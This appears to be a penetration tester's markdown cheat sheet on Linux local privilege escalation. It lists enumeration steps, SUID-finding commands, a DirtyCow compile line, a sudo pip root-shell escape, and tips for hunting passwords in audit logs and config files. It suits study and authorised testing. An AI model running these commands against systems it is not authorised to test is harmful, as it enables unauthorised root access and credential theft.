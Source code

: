 # Local Priv Esc
#linux #lpe
https://gtfobins.github.io/
https://lolbas-project.github.io/#
https://book.hacktricks.xyz/linux-unix/privilege-escalation

- Get OS information
- Check if the sudo version is vulnerable
	- sudo -v
	- sudo -l
- Check the PATH, any writable folder?
	- `set`
- Check env variables, any sensitive detail?
- Search for kernel exploits using scripts (DirtyCow?)
	- https://www.exploit-db.com/exploits/40839
	- gcc -pthread shell.c -o dirty -lcrypt
- Dmesg signature verification failed error?
- More system enum (date, system stats, cpu info, printers)
- Enumerate more defenses
	- #LinPEAS: https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh


# Sticky-Bit

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

## Unsanitized paths
#unsanitizedpath #path
See [[Unsanitized Path]].

# Find files belonging to user

`find / -user <user> 2>/dev/null | egrep -v "proc|venv"`
`find / -group <group> 2>/dev/null | egrep -v "proc|venv"`

# Exploit via Path if SUID-Binary does not use full path
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

# Exploit lxd group
https://www.hackingarticles.in/lxd-privilege-escalation/

# pip
`pip3 install <local_dir>` searches the local dir for a setup.py and executes it. Helpful if pip is in the sudoers or sbit.

Alternative (https://gtfobins.github.io/gtfobins/pip/):

`TF=$(mktemp -d)`
`echo "import os;os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py`
`sudo -H /usr/bin/pip3 install $TF`

# Audit-Logs
grep audit-logs for "data=" and decode as hex. Might contain passwords

# Docker
See [[Docker]].

# Search for credentials
## DBs
If mysql or mariadb is running, search for credentials in the config files for web apps. Sometimes there are hashes to crack and password reuse is a steady friend.

# Check for autologin
- Check for autologin
- `/etc/autologin`

# Magic grep
`grep -r 'keyword' /`
`grep 'keyword' /etc -R 2>/dev/null`

# Systemd services
Check `/etc/systemd/` services for custom ones.